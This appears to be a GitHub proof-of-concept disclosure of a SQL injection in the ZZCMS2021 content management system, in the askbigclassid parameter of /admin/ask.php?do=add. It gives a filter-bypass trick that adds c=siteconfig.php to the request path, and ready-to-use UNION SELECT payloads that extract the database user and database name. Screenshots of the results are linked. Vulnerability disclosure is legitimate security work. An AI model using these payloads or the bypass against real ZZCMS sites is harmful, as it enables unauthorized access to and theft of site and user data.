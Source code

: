 # POC of ZZCMS2021 SQL Injection 

Profile
-----
    ZZCMS2021 has a SQL injection vulnerability that allows an attacker to access /admin/ask.php?The askBigClassid parameter on the do=add page retrieves sensitive data, causing sensitive information leakage of users.

Location
----
    http://ip/admin/ask.php?do=add

Affected Products
----
    ZZCMS2021

PoC
----
1.Request the page as normal and get the response

![](https://github.com/Boomingjacob/ZZCMS/blob/main/1.jpg)
2.If the invalid character "select" is used, the response will report an error

![](https://github.com/Boomingjacob/ZZCMS/blob/main/2.jpg)

3.Use the c=siteconfig.php parameter in the request path to bypass sensitive strings such as select
Payload：askbigclassid=-1+union+select+user(),2,3,4,5,6,7,8,9,10,11
Query the current user name: root

![](https://github.com/Boomingjacob/ZZCMS/blob/main/3.jpg)

4.Payload：askbigclassid=-1+union+select+database(),2,3,4,5,6,7,8,9,10,11
Query the current database name: ZZCMS

![](https://github.com/Boomingjacob/ZZCMS/blob/main/4.jpg)
